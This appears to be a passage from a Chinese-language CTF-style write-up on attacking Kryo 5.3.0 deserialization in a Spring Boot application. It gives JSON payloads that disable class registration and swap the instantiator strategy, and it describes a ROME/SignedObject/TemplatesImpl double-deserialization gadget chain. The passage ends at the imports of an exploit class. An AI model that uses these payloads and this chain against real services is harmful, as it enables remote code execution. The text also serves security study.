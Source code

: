 先学一下 kryo 的反序列化

#### kryo反序列化
Kryo 是一个快速序列化/反序列化工具，其使用了字节码生成机制。Kryo 序列化出来的结果，是其自定义的、独有的一种格式，不再是 JSON 或者其他现有的通用格式；而且，其序列化出来的结果是二进制的（即 `byte[]`，而 JSON 本质上是字符串 String），序列化、反序列化时的速度也更快

其相对于其他反序列化类的特点是可以使用它来序列化或反序列化任何Java类型，而不需要实现Serializable
可以看到marshalsec的pdf文件介绍：

![https://img-blog.csdnimg.cn/9f70bbccba244a99a13c18d485b32c27.png](https://img-blog.csdnimg.cn/9f70bbccba244a99a13c18d485b32c27.png)

但是marshalsec里包含的是4.0.0的版本，我们这里是最新的版本5.3.0，有了较大的重构
第一个问题是`com.esotericsoftware.kryo.Kryo`类的`registrationRequired`属性默认设置为true
![](https://img-blog.csdnimg.cn/885cfbb6722948279bc0af8120eda450.png)

只有被注册过的类才可以被序列化和反序列化，并且默认只注册了下面的类：
```
// Primitives and string. Primitive wrappers automatically use the same registration as primitives.
this.register(Integer.TYPE, new IntSerializer());
this.register(String.class, new StringSerializer());
this.register(Float.TYPE, new FloatSerializer());
this.register(Boolean.TYPE, new BooleanSerializer());
this.register(Byte.TYPE, new ByteSerializer());
this.register(Character.TYPE, new CharSerializer());
this.register(Short.TYPE, new ShortSerializer());
this.register(Long.TYPE, new LongSerializer());
this.register(Double.TYPE, new DoubleSerializer());
```
由于我们可以set任意属性，那么选择`setRegistrationRequired`将其设置为 false 进行处理
```json
{"polish":"true","RegistrationRequired":false}
```
然后又发现一个问题`Class cannot be created (missing no-arg constructor)`
![](https://img-blog.csdnimg.cn/c9c54b21285942fe853306b8ebe5b2a6.png)

需要该类有一个无参数的构造函数，否则抛出类创建异常，导致无法反序列化，修改为
```json
{"polish":"true","RegistrationRequired":false,"InstantiatorStrategy": "org.objenesis.strategy.StdInstantiatorStrategy"}
```
因为在Springboot里面默认生成的对象是单例模式，所以修改了类的属性之后都会一直存在，只需要执行一次就可以了

最后发现`_tfactory`空指针异常，因为不是使用原生反序列化的，`TemplateImpl`的`_tfactory`会在序列化过程中丢失，所以无法直接用，改成二次反序列化就可以了
`ROME->SignedObject->ROME->TemplateImpl`

```java
import com.esotericsoftware.kryo.Kryo;
import com.esotericsoftware.kryo.io.Output;
import com.esotericsoftware.kryo.io.Input;
import com.rometools.rome.feed.impl.EqualsBean;
import com.rometools.rome.feed.impl.ObjectBean;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import org.json.JSONObject;
import tools.Evil;

import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.security.KeyPair;
import java.security.KeyPairGenerator;
import java.security.Signature;
import java.security.SignedObject;
```
